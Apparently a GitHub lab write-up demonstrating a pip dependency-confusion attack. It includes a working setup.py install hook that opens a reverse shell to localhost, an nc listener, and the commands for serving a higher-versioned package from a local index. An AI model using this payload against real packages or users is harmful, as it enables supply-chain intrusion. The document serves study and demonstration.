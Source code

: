 # PIP dependency confusion
![conf](confusion.png)


## Theory
https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610
## Lab setup
- Debian GNU/Linux 12 (bookworm) x64
- Python 3.11.2 
- Python virtualenv
- pip 23.0.1

## POC
We are going to use [pip-install-test package](https://pypi.org/project/pip-install-test), the current version is 0.5.
First of all activate a virtual enviroment:

    python3 -m venv dep-conf
    source dep-conf/bin/activate
    (dep-conf) user@xxxxx:~$ 

Proceed to install the test package:

     pip install pip-install-test -vv
     ...
     Successfully installed pip-install-test-0.5

To perform our attack we must set a local pip repo. This is a very easy task: https://packaging.python.org/en/latest/guides/hosting-your-own-index
Here I'm going just to create the required folder structure, then I will use Python built-in web server to host the malicious package. My root web folder structure is the following:

    piprepo.local/
    └── pip-install-test
        └── pip-install-test-0.6.tar.gz

You can download the package from this repo and serve it directly using your web server, but for the sake of learning we are going to recreate the package from scratch. Once you have decompressed the archive you will have the following directory structure:

        pip-install-test-0.6/
        ├── pip_install_test
        │   └── __init__.py
        ├── pip_install_test.egg-info
        │   ├── dependency_links.txt
        │   ├── not-zip-safe
        │   ├── PKG-INFO
        │   ├── SOURCES.txt
        │   └── top_level.txt
        ├── PKG-INFO
        ├── README.rst
        ├── setup.cfg
        └── setup.py

We can delete some stuff that actually we don't need to recreate the package:

        cd pip-install-test-0.6/
        rm -r setup.cfg pip_install_test.egg-info

Now our package source folder structure should be:

        pip-install-test-0.6/
        ├── pip_install_test
        │   └── __init__.py
        ├── PKG-INFO
        ├── README.rst
        └── setup.py

We are interested in abuse the set-up procedure, so our payload has to be inserted into setup.py:

       ...
            
        class PostInstallCmd(install):
            def run(self):
                install.run(self)
                print ("Hello, I'm going to confuse U...")
                s=socket.socket()
                s.connect(("127.0.0.1",9001))
                [os.dup2(s.fileno(),f)for f in(0,1,2)]; pty.spawn("sh")
        
        setup(name='pip-install-test',
              version='0.6',
              description='A minimal stub package to test success of pip install',
              long_description=long_description,
              author='Simon Krughoff',
              author_email='krughoff@lsst.org',
              license='MIT',
              packages=['pip_install_test'],
              zip_safe=False,
              cmdclass={
                    'install': PostInstallCmd
                }
              )
The interesting part is the cmdclass attribuite object, that will execute the actual apyload, that of course is a reverse shell to localhost, in this case.

## Perform the attack
First create the package (you know that to confuse pip we have to serve a more recent version, here I just incremented to 0.6). From inside the root package source directory execute:

    pip-install-test-0.6$ python3 setup.py sdist
    ...
    creating dist
    Creating tar archive
    removing 'pip-install-test-0.6' (and everything under it)

You will find the created archive inside the dist folder:

    pip-install-test-0.6$ ls dist
        pip-install-test-0.6.tar.gz

Now we have to move the package inside the web root folder, taking care to respect the required structure for the local pip repository:

    mv dist/pip-install-test-0.6.tar.gz /home/user/piprepo.local/pip-install-test

Then you should have the following structure:

    cd /home/user/piprepo.local/
    ~/piprepo.local$ tree
    .
    └── pip-install-test
        └── pip-install-test-0.6.tar.gz

From here we will execute our web server:

    ~/piprepo.local$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

Now we have to trick pip to get our malicious package, we can just update pip-install-test, saying to pip to look in our local repo for the new version. Before that start a nc listener:

     nc -lvp 9001
    listening on [any] 9001 ...

Then from the virtual enviroment proceed to update the package:

    (dep-conf) user@xxxxx:~$  pip3 install pip-install-test --trusted-host <your_hostname> --index-url http://<your_hostname>:8000 -vv -U
    ...
    Looking up "http://xxxxx:8000/pip-install-test/pip-install-test-0.6.tar.gz" in the cache
    No cache entry available
    ...
    http://xxxxx:8000 "GET /pip-install-test/pip-install-test-0.6.tar.gz HTTP/1.1" 200 1702
    ...
    Attempting uninstall: pip-install-test
    Found existing installation: pip-install-test 0.5
    Uninstalling pip-install-test-0.5:
    ...
    Copying pip_install_test.egg-info to /home/user/dep-conf/lib/python3.11/site-packages/pip_install_test-0.6.egg-info
      running install_scripts
      writing list of installed files to '/tmp/pip-record-8vjjx4uj/install-record.txt'
      Hello, I'm going to confuse U...

Then we shoul get a shell:

    ...
    connect to [127.0.0.1] from localhost [127.0.0.1] 37186
    (dep-conf) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ id
    id
    uid=1000(user) gid=1000(user) groups=1000(user),995(qubes)
    (dep-conf) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ 



    
    
        
        

  
    
